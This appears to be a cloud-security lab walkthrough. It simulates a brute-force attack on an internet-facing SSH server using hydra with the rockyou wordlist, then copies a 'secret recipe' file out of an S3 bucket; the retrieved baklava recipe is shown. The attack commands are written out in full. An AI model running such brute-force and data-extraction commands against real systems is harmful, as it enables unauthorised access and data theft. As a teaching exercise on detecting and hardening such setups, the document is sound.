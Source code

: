 ### Brute force attack to exploit SSH ports facing the internet and an insecure configuration on the server

1. Log into the attack simulation server using your SSH key-pair.

```shell
cd .ssh/
ssh -i YourServiceClientKP.pem ubuntu@ec2-54-152-203-174.compute-1.amazonaws.com
```

2. Start attack to the server

```shell
date
hydra -l ubuntu -P rockyou.txt ssh://ec2-23-23-34-174.compute-1.amazonaws.com
```

### Accessing Secret Recipe Data File from S3

Note: Still from the Attack instance

```shell
aws s3 ls  s3://cand-c3-secret-recipes-your-aws-account-id/ --region us-east-1

aws s3 cp s3://cand-c3-secret-recipes-your-aws-account-id/secret_recipe.txt  .  --region us-east-1

cat secret_recipe.txt
```

Result:
```
Baklava
Category: Desserts:  Cake, cookies, mousse, puddings, etc..
Classification:     Paid, Secret
Quantity: (makes about 100 2 1/2 inch long diamonds)

Ingredients:
Simmer a syrup of:              1/2 cup sugar or honey
  3/4 cup water                 1/2 lemon
until it is thick enough to
coat the back of a spoon.
Remove the lemon.  Add:         1 Tbsp. orange-blossom
                              water
and simmer a few minutes
longer.  Cool and
refrigerate.
Prepare a filling of:           1 1/2 cups coarsely
                              chopped nuts: almonds,
                              pistachios and walnuts in
                              any proportion

sprinkle the nuts with a        2 Tbsp. sugar
mixture of:
  1 tsp. cinnamon               1/8 tsp. cloves
Melt
  1 cup sweet butter          Have ready 24 sheets phyllo
                              dough (1 lb.)


Instructions:
Layer 12 of them on an 11 x 15 inch buttered baklava pan,
brushing the sheets of dough with about half the butter.
Spread the filling on top and cover with the remaining 12
similarly buttered sheets. Preheat oven to 350 F. Cut the
top layered sheets and filling diagonally into 2 inch long
diamonds, but leave the bottom few layers uncut.  Bake about
30 minutes.  Raise oven temperature to 475 F. and bake about
```